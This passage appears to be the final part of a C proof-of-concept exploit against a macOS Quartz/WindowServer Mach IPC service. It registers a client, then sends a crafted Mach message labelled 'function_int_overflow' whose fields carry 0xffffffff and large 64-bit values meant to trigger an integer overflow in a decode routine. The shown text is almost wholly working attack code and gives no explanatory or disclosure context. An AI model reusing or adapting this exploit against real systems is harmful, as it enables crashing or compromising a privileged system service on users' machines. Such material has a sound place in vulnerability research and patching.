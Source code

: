 ```c
    msg_register.ports[1].name = mach_task_self();
    msg_register.ports[1].disposition = MACH_MSG_TYPE_COPY_SEND;
    msg_register.ports[1].type = MACH_MSG_PORT_DESCRIPTOR;
    msg_register.ports[2].name = mach_task_self();
    msg_register.ports[2].disposition = MACH_MSG_TYPE_COPY_SEND;
    msg_register.ports[2].type = MACH_MSG_PORT_DESCRIPTOR;
    msg_register.ports[3].name = mach_task_self();
    msg_register.ports[3].disposition = MACH_MSG_TYPE_COPY_SEND;
    msg_register.ports[3].type = MACH_MSG_PORT_DESCRIPTOR;
    kr = mach_msg(&msg_register.header, MACH_SEND_MSG | MACH_RCV_MSG,
                  sizeof(quartz_register_client_t), sizeof(quartz_register_client_t),
                  msg_register.header.msgh_local_port, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
    if (kr != KERN_SUCCESS) {
        printf("[-] Send message failed: %s\n", mach_error_string(kr));
        return;
    }
    mach_port_t context_port = *(uint32_t *)((uint8_t *)&msg_register + 0x1c);
    uint32_t conn_id = *(uint32_t *)((uint8_t *)&msg_register + 0x30);
    typedef struct quartz_function_int_overflow_s quartz_function_int_overflow_t;
    struct quartz_function_int_overflow_s {
        mach_msg_header_t header;
        char msg_body[0x60];
    };
    quartz_function_int_overflow_t function_int_overflow_msg = {0};
    function_int_overflow_msg.header.msgh_bits =
        MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND, 0) | MACH_MSGH_BITS_COMPLEX;
    function_int_overflow_msg.header.msgh_remote_port = context_port;
    function_int_overflow_msg.header.msgh_id = 40002;
    memset(function_int_overflow_msg.msg_body, 0x0, sizeof(function_int_overflow_msg.msg_body));
    *(uint32_t *)(function_int_overflow_msg.msg_body + 0) = 0x1;  // Ports count
    /**
     *	1. One port consumes 12B space
     *	2. This `mach_msg` routine dose not need a port, so set this port to MACH_PORT_NULL(memory
     *	   cleared by memset)
     */
    *(uint32_t *)(function_int_overflow_msg.msg_body + 4 + 12 + 0) = 0xdeadbeef;
    *(uint32_t *)(function_int_overflow_msg.msg_body + 4 + 12 + 4) = conn_id;
    *(int8_t *)(function_int_overflow_msg.msg_body + 4 + 12 + 16) = 2;
    *(uint64_t *)(function_int_overflow_msg.msg_body + 4 + 12 + 16 + 1) = 0xdeadbeefdeadbeef;
    *(uint32_t *)(function_int_overflow_msg.msg_body + 4 + 12 + 16 + 9) = 0xffffffff;
    *(uint8_t *)(function_int_overflow_msg.msg_body + 4 + 12 + 16 + 13) = 0x12;  // Decode Function
    *(uint8_t *)(function_int_overflow_msg.msg_body + 4 + 12 + 16 + 14) = 0x2;
    /**(uint32_t*)(function_int_overflow_msg.msg_body + 4 + 12 + 16 + 15) = 0xDECAFBAD;*/
    *(uint64_t *)(function_int_overflow_msg.msg_body + 4 + 12 + 16 + 15) = 0x2000000000000000;
    *(uint32_t *)(function_int_overflow_msg.msg_body + 4 + 12 + 16 + 23) = 1;
    *(uint32_t *)(function_int_overflow_msg.msg_body + 4 + 12 + 16 + 27) = 2;
    *(uint8_t *)(function_int_overflow_msg.msg_body + 4 + 12 + 16 + 31) = 1;
    kr = mach_msg(&function_int_overflow_msg.header, MACH_SEND_MSG,
                  sizeof(function_int_overflow_msg), 0, 0, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
    if (kr != KERN_SUCCESS) {
        printf("[-] Send message failed: %s\n", mach_error_string(kr));
        return;
    }
    return;
}
int main() {
    do_int_overflow();
    return 0;
}
```
